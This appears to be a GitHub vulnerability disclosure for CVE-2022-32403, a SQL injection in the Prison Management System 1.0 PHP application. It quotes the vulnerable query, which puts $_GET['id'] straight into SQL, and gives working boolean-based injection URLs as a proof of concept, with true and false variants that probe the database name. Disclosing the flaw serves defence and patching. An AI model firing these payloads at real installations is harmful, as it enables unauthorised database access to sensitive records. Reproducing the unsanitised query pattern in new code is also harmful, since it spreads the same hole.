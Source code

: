 # CVE-2022-32403
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/inmates/manage_record.php:4`
```php
$qry = $conn->query("SELECT * FROM `record_list` where id = '{$_GET['id']}'");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/inmates/manage_record.php?id=1'-if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/inmates/manage_record.php?id=1'-if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32403_true.png)
- False : 
`http://localhost/pms/admin/inmates/manage_record.php?id=1'-if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32403_false.png)
